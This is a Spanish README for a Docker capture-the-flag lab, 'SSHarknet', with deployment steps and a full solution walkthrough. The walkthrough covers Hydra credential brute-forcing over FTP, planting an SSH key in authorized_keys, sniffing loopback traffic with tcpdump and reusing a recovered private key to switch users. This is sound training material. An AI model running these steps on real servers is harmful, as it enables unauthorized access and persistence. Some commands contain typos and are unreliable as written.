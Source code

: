 # SSHarknet

- [1. Instalación y despliegue](#1-instalación-y-despliegue)
- [1.1. Despliegue automático](#11-despliegue-automático)
- [1.2. Despliegue manual](#11-despliegue-manal)
- [2. Descripción de ejercicio](#2-descripción-de-ejercicio)
- [3. Solución de ejercicio](#3-solución-de-ejercicio)
- [3.1. Identificación de servicio FTP](#31-identificación-de-servicio-ftp)
- [3.2. Crackeo de credenciales FTP](#32-crackeo-de-credenciales-ftp)
- [3.3. Conexión al servidor](#33-conexión-al-servidor)
- [3.4. Búsqueda de la flag](#34-búsqueda-de-la-flag)
- [3.5. Interpretación de tareas programadas](#35-interpretación-de-tareas-programadas)
- [3.6. Intercepción de tráfico interno](#36-intercepción-de-tráfico-interno)
- [3.7. Análisis de tráfico](#37-análisis-de-tráfico)
- [3.8. Descompresión de archivo](#38-descomprensión-de-archivo)
- [3.9. Lectura de la flag](#39-lectura-de-la-flag)

## 1. Instalación y despliegue

Para desplegar el laboratorio es neceario tener [Docker](https://docs.docker.com/get-docker/) instalado. Una vez instalado podremos descargar la imagen o construirla.

### 1.1. Despliegue automático

Para desplegar el contenedor automáticamente bastará con ejecutar el siguiente comando:

```bash
docker run -d --name ssharknet -p [HostPort1]:21 -p [HostPort2]:22 -p [HostPortRange]:40000-40010 kradbyte/ssharknet:latest
```

Asegúrate de reemplazar `HostPor1`, `HostPort2` y `HostPortRange` con los puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

### 1.2. Despliegue manual

Para desplegar el contenedor manualmente primero deberemos clonar el repositorio y construir la imagen:

```bash
git clone https://github.com/kradbyte/elemental-labs.git
docker build -t kradbyte/ssharknet:latest elementals-labs/4-SSHarknet
```

Una vez tengamos la imagen construida podremos desplegar el contenedor:

```bash
docker run -d --name ssharknet -p [HostPort1]:21 -p [HostPort2]:22 -p [HostPortRange]:40000-40010 kradbyte/ssharknet:latest
```

Asegúrate de reemplazar `HostPor1`, `HostPort2` y `HostPortRange` con los puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

## 2. Descripción de ejercicio

Accidentalmente eliminaste el archivo “flag” de tu ordenador, y aunque lo buscaste en la papelera, no lo encontraste. Sabes que se realizan respaldos en el servidor periódicamente, así que es probable que encuentres tu archivo allí. Durante el almuerzo, escuchaste por casualidad que la contraseña del servidor fue cambiada a “winter”, lo que te da la oportunidad de acceder al servidor y buscar tu archivo sin que nadie se entere.

*Target*
Recuperar el archivo “flag” que perdiste.

*Steps*
1. Ingresa al servidor utilizando las credenciales disponibles.
2. Busca el archivo perdido.
3. Verifica las tareas programadas de respaldos.
4. Intercepta y descifra los paquetes de red.
5. Escala tus privilegios.
6. Recupera el archivo “flag”.

*Grants*
1. Los servicios del servidor operan en un rango de puertos entre 2000 y 2300.
2. Una vez interceptado el tráfico del servidor, filtra por HTTP y examina los archivos adjuntos en las solicitudes.

*Tools*
Nmap, Hydra, FTP/curl, SSH, tcpdump, WireShark.

## 3. Solución de ejercicio

### 3.1. Identificación de servicio FTP

Si se configuraron los puertos para que el servicio FTP corriera por un puerto distinto al 21, se debe utilizar alguna herramienta de escaneo para descubrir dicho servicio.

```bash
nmap -sn 192.168.0.0/24
```

### 3.2. Crackeo de credenciales FTP

Una vez hayamos ubicado el servicio FTP, en la descripción se menciona que podemos subir un archivo al sevidor, pero primero deberemos descubrir el usuario. Para eso podemos utilizar herramientas como *Hydra*, que nos ayudarán a descubrir las credenciales. Podemos utilizar algún diccionario de [SecList](https://github.com/danielmiessler/SecLists/blob/master/Usernames/cirt-default-usernames.txt).

```bash
hydra -l /ruta/a/tu/diccionario.txt -p winter ftp://ServerIP:ServerPort
```

No olvides reemplazar `ServerIP` y `ServerPort` con la IP y el puerto del servidor por donde corre el servicio FTP, así como la ruta de tu diccionario.

### 3.3. Conexión al servidor

Si ingresamos al servidor con FTP notaremos que podremos inyectar un archivo en la carpeta de usuario `.ssh`, por lo que podremos inyectar nuestras propias llaves SSH para conectarnos remotamente. Para ello deberemos generar nuestras llaves SSH en nuestro host:

```bash
ssh-keygen -t rsa -b 4096 -f key -N ""
```

Una vez tengamos nuestras llaves creadas bastara con enviar la llave pública al servidor:

```bash
curl -T key.pub ftp://User:winter@ServerIP:ServerPort/.ssh/authorized_keys
```

No olvides reemplazar `User` con el usuario que hayas encontrado, así como como `ServerIP` y `ServerPort` con la IP del servidor y el puerto donde corre FTP en caso se haya especificado algún otro distinto al 21 al momento de lanzar el contenedor.
Una vez hayamos enviado la llave pública podremos conectarnos por SSH:

```bash
chmod 600 key
ssh -p ServerPort -i key User@ServerIP
```

No olvides reemplazar `ServerPort` y `ServerIP` por la IP del servidor y el puerto por el que corre SSH.

### 3.4. Búsqueda de la flag

Cuando hayamos ganado acceso al servidor podremos buscar el archivo que buscamos:

```bash
find / -name \*flag\* 2>/dev/null
```

Al encontrar el archivo podremos intentar leerlo, pero al verificar sus persmisos notaremos que solo es accesible para otro usuario, por lo que deberemos buscar una forma de escalar privilegios.

### 3.5. Interpretación de tareas programadas

Si navegamos hasta las tareas cron notaremos que hay ciertas tareas realizadas por otros usuarios, como un servidor HTTP o un backup. 
Al encontrar un servicio HTTP podríamos intentar capturar el tráfico interno de la red para ver qué podemos encontrar al respecto.

### 3.6. Intercepción de tráfico interno

Para capturar el tráfico interno utilizaremos tcpdump con la interfaz *loocback*.

```bash
tcpdump -i lo -w trafic.pcap
```

Guardaremos el tráfico en un archivo para analizarlo posteriormente, porque al ver el tráfico en tiempo real no podremos manipular los paquetes.
Una vez hayamos interceptado el tráfico durante al menos cinco minutos verificaremos que el archivo sí tenga información, de lo contrario capturaremos nuevamente el tráfico.

### 3.7. Análisis de tráfico

Cuando tengamos el tráfico interceptado analizaremos dicha captura con WireShark, pero primero deberemos pasar el archivo a nuestro host, por lo que en nuestro host ejecutaremos:

```bash
curl -o data.pcap ftp://User:winter@ServerIP:ServerPort/trafic.pcap
```

Reemplaza `User` por el usuario encontrado en etapas anteriores, así como el `ServerIP` y `ServerPort` con la IP del servidor y el puerto por el que corre FTP.
Cuando hayamos descargado el archivo podremos analizarlo con WireShark. Una vez abierto el archivo del tráfico que capturamos, deberemos filtrar por HTTP y entre todas las solicitudes que aparezcan deberemos inspeccionar para ver qué se tramita.

### 3.8. Descompresión de archivo

Entre los paquetes encontraremos una petición de un archivo. Dicho archivo contiene un bloque de cadenas que, al analizar detenidamente, nos daremos cuenta que se trata de un archivo comprimido en formato hexadecimal en columnas. Deberemos copiar todas las líneas del archivo y guardarlas en un nuevo archivo, para convertir esas cadenas en el archivo comprimido. Una vez tengamos el archivo podremos convertir esas cadenas en el archivo comprimido:

```bash
xxd -p -r ArchivoEncontradoEnCaptura.txt > file.tar.gz
```

Al tener el archivo comprimido lo podremos descomprimir de forma normal:

```bash
tar -xzf fil.tar.gz
```

### 3.9. Lectura de la flag

Al tener el archivo descomprimido notaremos que dicho archivo contiene una llave privada, por lo que al intentar conectarnos a otros usuarios llegaremos a conectarnos al usuario que tiene permisos de lectura de nuestro archivo flag.
